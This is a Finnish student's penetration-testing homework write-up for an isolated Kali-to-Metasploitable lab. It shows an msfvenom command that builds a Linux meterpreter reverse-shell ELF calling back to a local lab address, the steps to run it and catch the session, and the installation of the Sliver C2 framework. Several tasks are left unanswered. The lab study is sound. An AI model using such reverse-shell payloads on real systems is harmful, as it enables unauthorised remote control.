


# h6 Koita simpukoita
[Tero Karvinen 2026 late spring: Tunkeutumistestaus, Koita simpukoita](https://terokarvinen.com/tunkeutumistestaus/)

## Ympäristö
- kali-linux-2025.4-virtualbox-amd64
  - Debian (64-bit)
  - 2048 MB base memory
  - 2 vCPU
  - NAT Network adapter
  - Host-only network adapter
  - Firefox 128.3.1esr (64-bit)
 
- Metasploitable 2
  - Oracle Linux (64-bit)
  - 2048 MB base memory
  - 1vCPU
  - Host-only network adapter
 
## a) Venom. Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). 
> Ota yhteys vastaan metasploitin multi/handler -työkalulla.

### Luodaan reverse shell haittaohjelma
Käytin haittaohjelman luomiseen näitä ohjeita: [RAPID7, Metasploitable doc: how to use msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).

Ensin katsoin mitä parametrejä msfvenom tukee:
```
msfvenom
```


Sitten etsin sopivan meterpreter payloadin, jolla muodostaa reverse shell yhteys.
```
msfvenom -l payloads "meterpreter"
```
Tuloksena tuli pitkä lista, mutta etsin linuxille suunnattua reverse shell kuormaa ja mielellään sellaista, joka ei vaadi lisäosia (stageless).



Sitten seuraavalla komennolla teen kuorman sisältävän elf-tiedoston.
```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f ELF -o SUPERMALWARE.elf
```
Parametrit:
- `-p`, määrittää kuorman.
- `-f`, tiedostotyyppi.
- `-o`, tiedoston nimi.


### Nyt siirrän kuorman sisältävän tiedoston kohdekoneelle. (Katso h3 tehtävä-f)


### Multi handler
(https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)


### Tiedosto on nyt kohteessa. Ajetaanpas se.
Annan ensin ajo-oikeudet tiedostoon: 

```
chmod +x SUPERMALWARE.elf
```


Sitten ajetaan:


Konsoliin avautui meterpreter sessio:


Kokeillaan toimiiko istunto. Tuon istunnon esiin komennolla:
```
sessions -i 1
```


## b) Snif venom! Tarkastele ja analysoi msfvenomin muodostamaa reverse shell -yhteyttä. 
> Käytä snifferiä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

### Yhteys vaikuttaa olevan vain tcp liikehdintää


## c) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä. (Lisätty 4.5.2026)

### Latasin sliverin
```
sudo apt install sliver
```


Mukana latautui riippuvuus nimellä xsel.

### Käynnistän sliver serverin
```
sliver-server
```


Komento avasi sliver istunnon ja näytölle tulostui ascii merkeillä piirretyt pelikortit.

Komentokehote muuttui: `[server] sliver > `


## d) Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. 
Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?


## e) Sliverillä voit muuttaa yhteyden ominaisuuksia. 
Kokeile ja näytä esimerkki. Muista todeta testein, että muutokset toimivat.


## f) Sliverillä voi tehdä monenlaista kohteessa, ruutukaappauksista alkaen. Näytä esimerkkejä toiminnoista.


## Lähdeluettelo
- RAPID7, Metasploitable doc: how to use msfvenom (https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- InfosecMatter 2020: Generic Payload Handler - Metasploit(https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)

